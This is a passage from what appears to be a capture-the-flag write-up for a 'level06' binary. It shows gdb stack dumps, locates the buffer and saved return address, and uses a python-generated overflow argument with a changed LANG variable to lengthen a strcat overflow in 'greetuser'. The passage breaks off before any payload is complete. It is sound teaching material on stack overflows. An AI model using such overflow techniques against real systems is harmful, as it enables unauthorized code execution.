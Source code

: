     0xbffffb40:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb50:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb60:     0x41414141      0x41414141      0x42424242      0x42424242
    0xbffffb70:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb80:     0x42424242      0x42424242      0x00000000      0x080482da

A few things we can see in memory:

- 0xbffffaf0 is the start of our buffer:

    (gdb) x/s 0xbffffaf0
    0xbffffaf0:     "Hi "

- 0xbffffb40 is the start of our user structure:

    (gdb) x/s 0xbffffb40
    0xbffffb40:     'A' <repeats 40 times>, 'B' <repeats 32 times>

- 0xbffffb3c is the return address of the function (if you look up the `disass main`, it's the instruction following the call to `greetuser`:

    (gdb) x/xw 0xbffffb3c
    0xbffffb3c:     0x080486af

This is before calling `strcat`, and after:

    (gdb) c
    Continuing.
    Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

    Breakpoint 2, 0x08048591 in greetuser ()
    (gdb) x/44wx $esp
    0xbffffae0:     0xbffffaf0      0xbffffb40      0xbffffb04      0x0804993c
    0xbffffaf0:     0x41206948      0x41414141      0x41414141      0x41414141
    0xbffffb00:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb10:     0x41414141      0x41414141      0x42414141      0x42424242
    0xbffffb20:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb30:     0x42424242      0x42424242      0x00424242      0x080486af
    0xbffffb40:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb50:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffb60:     0x41414141      0x41414141      0x42424242      0x42424242
    0xbffffb70:     0x42424242      0x42424242      0x42424242      0x42424242
    0xbffffb80:     0x42424242      0x42424242      0x00000000      0x080482da

You can see clearly the string was copied across to the buffer, from the start of the 'A', to the end of the 'B'. But something is not quite right: we didn't wrote over the return address: the buffer is too small!

Fortunately, there is another parameter in this challenge that will solve that: changing the greeting prefix. Depending on the string present in the env variable `LANG` the message will change to a french or German one. Let's see that in action:

    (gdb) set environment LANG=fr
    (gdb) r $(python -c "print 'A'*40 + ' ' + 'B'*32")
    Starting program: /levels/level06 $(python -c "print 'A'*40 + ' ' + 'B'*32")
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
